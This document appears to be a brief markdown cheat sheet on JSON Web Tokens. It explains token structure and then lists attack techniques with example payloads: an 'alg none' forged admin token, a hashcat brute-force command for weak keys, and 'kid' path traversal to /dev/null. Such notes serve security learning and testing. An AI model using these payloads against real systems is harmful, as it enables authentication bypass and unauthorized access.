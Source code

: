 # JSON WEB TOKEN (JWT)

https://jwt.io/

***exemple :***  
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ.C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw

They are divided in 3 pars separated by a dot, they are basically base64 encoded

***Header : ***eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9

***Payload : ***eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ

***Signature : ***C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw

### Header

{
  "typ": "JWT",
  "alg": "HS256"
}


### Payload 

{
  "username": "guest",
  "exp": 1665076836
}

### Signature

Signature is calculated with the server secret key.  
Without it, it's difficult to recreate a new valid one


## Transmission

JWTs can be transmitted in cookies, in HTTP common header or dedicated headers

They are often used in HTTP headers like this:  
`Authorization: Bearer eyJ0eXAiOiJKV1QiLCJh...`


## Encryption 

Signature can be generated with symmetric (e.g. HS256) or asymmetric (e.g. RS256) encryption



## Vulnerabilities


#### None, none, NONE, nOnE algorithm  
Modify the header section of the token so that the alg header would contain the value none.    
Remove the signature part but leave the dot, the dot is important  
Patch a while ago but can work on old configurations  

***Example :***  
`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0=.`

***header : ***{"typ":"JWT","alg":"none"}  

***payload : ***{"username":"admin"}

NOTE : IT IS POSSIBLE TO USE ANY CASE VARIATION

#### Weak secret key

Symmetric encryption
***Example with a 4 digit key***

```bash
hashcat jwt.txt -m 16500 -a 3 -w 2 ?d?d?d?d
```

#### No signature verification

Rare but, it happens sometimes

#### Unsecure file signature

Sometimes, the header can contains a "kid" key that links to a file where the server secret key is stored  

***Example : ***
```
{
  "alg": "HS256",
  "kid": "../key/secretkey.txt",
  "typ": "JWT"
}
```

If the jwt is signed with the content of the file, we can edit this file to make it point to /dev/null for example (which signes with a null string : %00)  

***Example : ***  
```
{
  "alg": "HS256", 
  "kid": "../../../dev/null",
  "typ": "JWT"
}
```